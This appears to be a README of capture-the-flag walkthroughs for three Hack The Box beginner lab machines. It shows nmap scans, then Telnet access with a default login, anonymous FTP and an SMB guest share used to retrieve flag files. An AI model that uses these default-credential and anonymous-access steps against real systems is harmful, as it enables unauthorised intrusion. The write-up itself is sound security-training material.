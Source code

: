 # HTB Starting Point Machines

Documented walkthroughs for the "Starting Point" series on Hack The Box.

---

## 🐱 Meow
**Protocol:** Telnet  
**IP Address:** 10.129.1.17  
**Summary:** Discovered open Telnet port with Nmap. Used default login to access the system and read the flag.

### 🔍 Enumeration
```bash
ping 10.129.1.17
nmap 10.129.1.17
```
📸 ![](screenshots/meow_ping_nmap_results.png)

### 💻 Exploitation
```bash
telnet 10.129.1.17
```
📸 ![](screenshots/meow_telnet_success.png)

### 🏁 Flag
```bash
cat flag.txt
```
📸 ![](screenshots/meow_explored_flag_capture.png)

### ✅ Pwned!
📸 ![](screenshots/meow_pwned.png)

---

## 🦌 Fawn
**Protocol:** FTP  
**IP Address:** 10.129.75.79  
**Summary:** Anonymous FTP login allowed access to `flag.txt`.

### 🔍 Enumeration
```bash
ping 10.129.75.79
nmap 10.129.75.79
```
📸 ![](screenshots/fawn_ping_nmap_results.png)

### 💻 Exploitation
```bash
ftp 10.129.75.79
# login as anonymous
get flag.txt
```
📸 ![](screenshots/fawn_ftp_success_flag_located.png)  
📸 ![](screenshots/fawn_get_flag_catpured.png)

### ✅ Pwned!
📸 ![](screenshots/fawn_pwned.png)

---

## 💃 Dancing
**Protocol:** SMB  
**IP Address:** 10.129.1.12  
**Summary:** Found readable share via SMB. Navigated directories using `smbclient` and retrieved flag.

### 🔍 Enumeration
```bash
nmap 10.129.1.12
smbclient -L 10.129.1.12
```
📸 ![](screenshots/dancing_nmap_results.png)  
📸 ![](screenshots/dancing_smb_results.png)

### 💻 Exploitation
```bash
smbclient //10.129.1.12/WorkShares -U guest
cd James.P
get flag.txt
```
📸 ![](screenshots/dancing_flag_located.png)  
📸 ![](screenshots/dancing_flag_catpure.png)

### ✅ Pwned!
📸 ![](screenshots/dancing_pwned.png)
